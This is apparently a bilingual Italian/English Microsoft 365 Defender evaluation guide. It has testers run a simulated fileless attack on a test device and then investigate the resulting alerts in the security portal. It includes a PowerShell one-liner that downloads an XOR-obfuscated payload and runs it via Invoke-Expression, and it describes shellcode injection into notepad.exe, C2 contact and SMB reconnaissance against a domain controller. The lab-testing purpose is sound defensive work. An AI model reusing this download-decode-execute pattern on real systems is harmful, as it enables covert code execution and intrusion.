# <a name="run-your-microsoft-365-defender-attack-simulations"></a><span data-ttu-id="5b4d9-104">Eseguire le simulazioni di attacco di Microsoft 365 Defender</span><span class="sxs-lookup"><span data-stu-id="5b4d9-104">Run your Microsoft 365 Defender attack simulations</span></span>

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|<span data-ttu-id="5b4d9-105">[](m365d-pilot-plan.md)</span><span class="sxs-lookup"><span data-stu-id="5b4d9-105">[](m365d-pilot-plan.md)</span></span><br/>[<span data-ttu-id="5b4d9-106">Pianificazione</span><span class="sxs-lookup"><span data-stu-id="5b4d9-106">Planning</span></span>](m365d-pilot-plan.md)|<span data-ttu-id="5b4d9-107">[](prepare-m365d-eval.md)</span><span class="sxs-lookup"><span data-stu-id="5b4d9-107">[](prepare-m365d-eval.md)</span></span><br/>[<span data-ttu-id="5b4d9-108">Preparazione</span><span class="sxs-lookup"><span data-stu-id="5b4d9-108">Preparation</span></span>](prepare-m365d-eval.md)|<br/><span data-ttu-id="5b4d9-110">Simula attacco</span><span class="sxs-lookup"><span data-stu-id="5b4d9-110">Simulate attack</span></span>|<span data-ttu-id="5b4d9-111">[](m365d-pilot-close.md)</span><span class="sxs-lookup"><span data-stu-id="5b4d9-111">[](m365d-pilot-close.md)</span></span><br/>[<span data-ttu-id="5b4d9-112">Chiudi e riepiloga</span><span class="sxs-lookup"><span data-stu-id="5b4d9-112">Close and summarize</span></span>](m365d-pilot-close.md)|
|--|--|--|--|
|||<span data-ttu-id="5b4d9-113">*Sei qui!*</span><span class="sxs-lookup"><span data-stu-id="5b4d9-113">*You are here!*</span></span>||

<span data-ttu-id="5b4d9-114">Si è attualmente in fase di simulazione dell'attacco.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-114">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="5b4d9-115">Dopo aver preparato l'ambiente pilota, è il momento di testare la gestione degli incidenti di Microsoft 365 Defender e le funzionalità di analisi e correzione automatizzate.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-115">After preparing your pilot environment, it's time to test the Microsoft 365 Defender incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="5b4d9-116">Microsoft ti aiuterà a simulare un attacco sofisticato che sfrutta tecniche avanzate per nasconderti dal rilevamento.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-116">We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="5b4d9-117">L'attacco enumera le sessioni SMB (Server Message Block) aperte nei controller di dominio e recupera gli indirizzi IP recenti dei dispositivi degli utenti.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-117">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="5b4d9-118">Questa categoria di attacchi in genere non include i file rilasciati nel dispositivo della vittima, ma si verificano esclusivamente in memoria.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-118">This category of attacks usually doesn't include files dropped on the victim's device—they occur solely in memory.</span></span> <span data-ttu-id="5b4d9-119">Usano strumenti di amministrazione e di sistema esistenti e inserisce il codice nei processi di sistema per nasconderne l'esecuzione. Tale comportamento consente loro di evitare il rilevamento e di mantenere il dispositivo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-119">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="5b4d9-120">In questa simulazione, lo scenario di esempio inizia con uno script di PowerShell.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-120">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="5b4d9-121">Un utente potrebbe essere ingannato nell'esecuzione di uno script.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-121">A user might be tricked into running a script.</span></span> <span data-ttu-id="5b4d9-122">Oppure lo script potrebbe essere eseguito da una connessione remota a un altro computer da un dispositivo in precedenza infetto, ovvero l'utente malintenzionato che tenta di spostarsi lateralmente nella rete.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-122">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="5b4d9-123">Il rilevamento di questi script può essere difficile perché gli amministratori spesso eseguono anche script in remoto per eseguire diverse attività amministrative.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-123">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="5b4d9-125">Durante la simulazione, l'attacco inserisce shellcode in un processo apparentemente innocenza.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-125">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="5b4d9-126">Lo scenario richiede l'uso di notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-126">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="5b4d9-127">Abbiamo scelto questo processo per la simulazione, ma è più probabile che gli utenti malintenzionati si ritorsino a un processo di sistema a esecuzione lunga, ad esempio svchost.exe.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-127">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="5b4d9-128">Il codice shell passa quindi a contattare il server di comando e controllo (C2) dell'utente malintenzionato per ricevere istruzioni su come procedere.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-128">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="5b4d9-129">Lo script tenta di eseguire query di ricognizione sul controller di dominio .</span><span class="sxs-lookup"><span data-stu-id="5b4d9-129">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="5b4d9-130">La ricognizione consente a un utente malintenzionato di ottenere informazioni sulle informazioni di accesso degli utenti recenti.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-130">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="5b4d9-131">Una volta che gli utenti malintenzionati hanno queste informazioni, possono spostarsi lateralmente nella rete per accedere a un account sensibile specifico</span><span class="sxs-lookup"><span data-stu-id="5b4d9-131">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="5b4d9-132">Per ottenere risultati ottimali, seguire le istruzioni di simulazione degli attacchi il più attentamente possibile.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-132">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

## <a name="simulation-environment-requirements"></a><span data-ttu-id="5b4d9-133">Requisiti dell'ambiente di simulazione</span><span class="sxs-lookup"><span data-stu-id="5b4d9-133">Simulation environment requirements</span></span>

<span data-ttu-id="5b4d9-134">Poiché l'ambiente pilota è già stato configurato durante la fase di preparazione, verificare di disporre di due dispositivi per questo scenario: un dispositivo di test e un controller di dominio.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-134">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1. <span data-ttu-id="5b4d9-135">Verificare che il tenant [abbia abilitato Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span><span class="sxs-lookup"><span data-stu-id="5b4d9-135">Verify your tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>

2. <span data-ttu-id="5b4d9-136">Verificare la configurazione del controller di dominio di test:</span><span class="sxs-lookup"><span data-stu-id="5b4d9-136">Verify your test domain controller configuration:</span></span>

   - <span data-ttu-id="5b4d9-137">Il dispositivo viene eseguito con Windows Server 2008 R2 o versione successiva.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-137">Device runs with Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="5b4d9-138">Controller di dominio di test per [Microsoft Defender per l'identità e](/azure/security-center/security-center-wdatp) abilitare la gestione [remota.](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)</span><span class="sxs-lookup"><span data-stu-id="5b4d9-138">The test domain controller to [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) and enable [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="5b4d9-139">Verificare che [l'integrazione di Microsoft Defender for Identity e Microsoft Cloud App Security](/cloud-app-security/mdi-integration) sia stata abilitata.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-139">Verify that [Microsoft Defender for Identity and Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) have been enabled.</span></span>
   - <span data-ttu-id="5b4d9-140">Nel dominio viene creato un utente di prova, non sono necessarie autorizzazioni di amministratore.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-140">A test user is created on your domain – no admin permissions needed.</span></span>

3. <span data-ttu-id="5b4d9-141">Verificare la configurazione del dispositivo di test:</span><span class="sxs-lookup"><span data-stu-id="5b4d9-141">Verify test device configuration:</span></span>

   1. <span data-ttu-id="5b4d9-142">Il dispositivo viene eseguito con Windows 10 versione 1903 o versione successiva.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-142">Device runs with Windows 10 version 1903 or a later version.</span></span>

   1. <span data-ttu-id="5b4d9-143">Il dispositivo di test è aggiunto al dominio di test.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-143">Test device is joined to the test domain.</span></span>

   1. <span data-ttu-id="5b4d9-144">[Attivare Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="5b4d9-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="5b4d9-145">In caso di problemi con l'abilitazione Windows Defender Antivirus, vedere questo [argomento per la risoluzione dei problemi.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="5b4d9-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="5b4d9-146">Verificare che il dispositivo di test [sia stato onboarded in Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="5b4d9-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="5b4d9-147">Se usi un tenant esistente e implementi i gruppi di dispositivi, crea un gruppo di dispositivi dedicato per il dispositivo di test ed eserciti il push al livello superiore nell'esperienza utente di configurazione.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="5b4d9-148">Eseguire la simulazione dello scenario di attacco</span><span class="sxs-lookup"><span data-stu-id="5b4d9-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="5b4d9-149">Per eseguire la simulazione dello scenario di attacco:</span><span class="sxs-lookup"><span data-stu-id="5b4d9-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="5b4d9-150">Accedere al dispositivo di test con l'account utente di test.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="5b4d9-151">Aprire una Windows PowerShell di test nel dispositivo di test.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="5b4d9-152">Copiare lo script di simulazione seguente:</span><span class="sxs-lookup"><span data-stu-id="5b4d9-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="5b4d9-153">Se si apre il documento in un Web browser, è possibile che si verifichino problemi durante la copia del testo completo senza perdere determinati caratteri o introducendo interruzioni di riga aggiuntive.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="5b4d9-154">Scarica questo documento e aprilo in Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="5b4d9-155">Al prompt dei comandi, incollare ed eseguire lo script copiato.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="5b4d9-156">Se si esegue PowerShell con RDP (Remote Desktop Protocol), utilizzare il comando Digita testo Appunti nel client RDP perché il tasto di scelta rapida **CTRL-V** o il metodo di incolla con il pulsante destro del mouse potrebbe non funzionare.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="5b4d9-157">Anche le versioni recenti di PowerShell a volte non accettano questo metodo, potrebbe essere necessario prima copiarlo nel Blocco note in memoria, copiarlo nella macchina virtuale e quindi incollarlo in PowerShell.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="5b4d9-158">Pochi secondi <i> dopo, </i>notepad.exesi aprirà.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-158">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="5b4d9-159">Un codice di attacco simulato verrà inserito in notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-159">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="5b4d9-160">Tenere aperta l'istanza del Blocco note generata automaticamente per sperimentare lo scenario completo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-160">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="5b4d9-161">Il codice di attacco simulato tenterà di comunicare con un indirizzo IP esterno (simulando il server C2) e quindi tenterà la ricognizione con il controller di dominio tramite SMB.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-161">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="5b4d9-162">Quando questo script viene completato, verrà visualizzato un messaggio nella console di PowerShell.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-162">You'll see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="5b4d9-163">Per visualizzare la funzionalità Eventi imprevisti e risposte automatizzati in azione, mantenere aperto notepad.exe processo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-163">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="5b4d9-164">Vedrai l'arresto automatico di eventi imprevisti e risposta del processo blocco note.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-164">You'll see Automated Incident and Response stop the Notepad process.</span></span>

## <a name="investigate-an-incident"></a><span data-ttu-id="5b4d9-165">Analizzare un incidente</span><span class="sxs-lookup"><span data-stu-id="5b4d9-165">Investigate an incident</span></span>

> [!NOTE]
> <span data-ttu-id="5b4d9-166">Prima di illustrare questa simulazione, guardare il video seguente per vedere come la gestione degli eventi imprevisti consente di riunire gli avvisi correlati nell'ambito del processo di indagine, dove è possibile trovarlo nel portale e come può essere utile nelle operazioni di sicurezza:</span><span class="sxs-lookup"><span data-stu-id="5b4d9-166">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="5b4d9-167">Passando al punto di vista dell'analista SOC, è ora possibile iniziare a analizzare l'attacco nel portale del Centro sicurezza Microsoft 365.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-167">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span>

1. <span data-ttu-id="5b4d9-168">Aprire la coda degli eventi imprevisti del portale del Centro sicurezza Microsoft [365](https://security.microsoft.com/incidents) da qualsiasi dispositivo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-168">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2. <span data-ttu-id="5b4d9-169">Passare a **Eventi imprevisti** dal menu.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-169">Navigate to **Incidents** from the menu.</span></span>

    

3. <span data-ttu-id="5b4d9-171">Il nuovo evento imprevisto per l'attacco simulato verrà visualizzato nella coda degli eventi imprevisti.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-171">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="5b4d9-173">Analizzare l'attacco come un singolo evento imprevisto</span><span class="sxs-lookup"><span data-stu-id="5b4d9-173">Investigate the attack as a single incident</span></span>

<span data-ttu-id="5b4d9-174">Microsoft 365 Defender correla l'analisi e aggrega tutti gli avvisi e le indagini correlati da prodotti diversi in un'unica entità evento imprevisto.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-174">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="5b4d9-175">In questo modo, Microsoft 365 Defender mostra una storia di attacco più ampia, consentendo all'analista SOC di comprendere e rispondere a minacce complesse.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-175">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="5b4d9-176">Gli avvisi generati durante questa simulazione sono associati alla stessa minaccia e, di conseguenza, vengono aggregati automaticamente come singolo evento imprevisto.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-176">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="5b4d9-177">Per visualizzare l'evento imprevisto:</span><span class="sxs-lookup"><span data-stu-id="5b4d9-177">To view the incident:</span></span>

1. <span data-ttu-id="5b4d9-178">Passare alla **coda Eventi imprevisti.**</span><span class="sxs-lookup"><span data-stu-id="5b4d9-178">Navigate to the **Incidents** queue.</span></span>

   

2. <span data-ttu-id="5b4d9-180">Seleziona l'elemento più recente facendo clic sul cerchio a sinistra del nome dell'evento imprevisto.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-180">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="5b4d9-181">Un pannello laterale visualizza informazioni aggiuntive sull'evento imprevisto, inclusi tutti gli avvisi correlati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-181">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="5b4d9-182">Ogni evento imprevisto ha un nome univoco che lo descrive in base agli attributi degli avvisi inclusi.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-182">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   

   <span data-ttu-id="5b4d9-184">Gli avvisi visualizzati nel dashboard possono essere filtrati in base alle risorse del servizio: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender e Microsoft Defender per Office 365.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-184">The alerts that show in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="5b4d9-185">Selezionare **Apri pagina evento imprevisto** per ottenere ulteriori informazioni sull'evento imprevisto.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-185">Select **Open incident page** to get more information about the incident.</span></span>

   <span data-ttu-id="5b4d9-186">Nella pagina **Evento** imprevisto è possibile visualizzare tutti gli avvisi e le informazioni relative all'evento imprevisto.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-186">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="5b4d9-187">Le informazioni includono le entità e gli asset coinvolti nell'avviso, l'origine di rilevamento degli avvisi (Microsoft Defender for Identity, EDR) e il motivo per cui sono stati collegati tra loro.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-187">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Microsoft Defender for Identity, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="5b4d9-188">Esaminando l'elenco degli avvisi di eventi imprevisti viene mostrata la progressione dell'attacco.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-188">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="5b4d9-189">Da questa visualizzazione è possibile visualizzare e analizzare i singoli avvisi.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-189">From this view, you can see and investigate the individual alerts.</span></span>

   <span data-ttu-id="5b4d9-190">È inoltre possibile scegliere **Gestisci evento imprevisto** dal menu a destra per contrassegnare l'evento imprevisto, assegnarlo a se stessi e aggiungere commenti.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-190">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

   

   

### <a name="review-generated-alerts"></a><span data-ttu-id="5b4d9-193">Esaminare gli avvisi generati</span><span class="sxs-lookup"><span data-stu-id="5b4d9-193">Review generated alerts</span></span>

<span data-ttu-id="5b4d9-194">Esamini alcuni degli avvisi generati durante l'attacco simulato.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-194">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="5b4d9-195">Verranno visualizzati solo alcuni degli avvisi generati durante l'attacco simulato.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-195">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="5b4d9-196">A seconda della versione di Windows e dei prodotti Microsoft 365 Defender in esecuzione nel dispositivo di test, è possibile che vengano visualizzati più avvisi in un ordine leggermente diverso.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-196">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>



#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="5b4d9-198">Avviso: rilevato inserimento di processi sospetti (Origine: Microsoft Defender per Endpoint EDR)</span><span class="sxs-lookup"><span data-stu-id="5b4d9-198">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="5b4d9-199">Gli autori di attacchi avanzati usano metodi sofisticati e furtivi per mantenere la memoria e nascondersi dagli strumenti di rilevamento.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-199">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="5b4d9-200">Una tecnica comune consiste nell'operare dall'interno di un processo di sistema attendibile anziché da un eseguibile dannoso, rendendo difficile per gli strumenti di rilevamento e le operazioni di sicurezza individuare il codice dannoso.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-200">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="5b4d9-201">Per consentire agli analisti SOC di intercettare questi attacchi avanzati, i sensori di memoria profonda in Microsoft Defender for Endpoint offrono al nostro servizio cloud una visibilità senza precedenti su un'ampia gamma di tecniche di inserimento di codice cross-process.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-201">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="5b4d9-202">La figura seguente mostra come Defender for Endpoint ha rilevato e avvisato il tentativo di inserire codice per <i>notepad.exe</i>.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-202">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="5b4d9-204">Avviso: comportamento imprevisto osservato da un processo eseguito senza argomenti della riga di comando (Source: Microsoft Defender for Endpoint EDR)</span><span class="sxs-lookup"><span data-stu-id="5b4d9-204">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="5b4d9-205">I rilevamenti di Microsoft Defender for Endpoint spesso sono mirati all'attributo più comune di una tecnica di attacco.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-205">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="5b4d9-206">Questo metodo garantisce la durata e alza l'astio per consentire agli utenti malintenzionati di passare a tattiche più nuove.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-206">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="5b4d9-207">Si utilizzano algoritmi di apprendimento su larga scala per stabilire il comportamento normale dei processi comuni all'interno di un'organizzazione e in tutto il mondo e osservare quando questi processi mostrano comportamenti anomali.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-207">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="5b4d9-208">Questi comportamenti anomali spesso indicano che il codice estraneo è stato introdotto e in esecuzione in un processo altrimenti attendibile.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-208">These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.</span></span>

<span data-ttu-id="5b4d9-209">Per questo scenario, il processo <i>notepad.exe</i> presenta un comportamento anomalo, che implica la comunicazione con una posizione esterna.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-209">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="5b4d9-210">Questo risultato è indipendente dal metodo specifico utilizzato per introdurre ed eseguire il codice dannoso.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-210">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="5b4d9-211">Poiché questo avviso si basa su modelli di machine learning che richiedono un'ulteriore elaborazione back-end, potrebbe essere necessario del tempo prima di visualizzare questo avviso nel portale.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-211">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="5b4d9-212">Si noti che i dettagli dell'avviso includono l'indirizzo IP esterno, un indicatore che è possibile utilizzare come pivot per espandere l'indagine.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-212">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="5b4d9-213">Selezionare l'indirizzo IP nell'albero del processo di avviso per visualizzare la pagina dei dettagli dell'indirizzo IP.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-213">Select the IP address in the alert process tree to view the IP address details page.</span></span>


<span data-ttu-id="5b4d9-215">Nella figura seguente viene visualizzata la pagina dei dettagli dell'indirizzo IP selezionata (facendo clic sull'indirizzo IP nell'albero del processo di avviso).</span><span class="sxs-lookup"><span data-stu-id="5b4d9-215">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="5b4d9-216"></span><span class="sxs-lookup"><span data-stu-id="5b4d9-216"></span></span>

#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="5b4d9-217">Avviso: ricognizione degli indirizzi IP e degli utenti (SMB) (Origine: Microsoft Defender per l'identità)</span><span class="sxs-lookup"><span data-stu-id="5b4d9-217">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

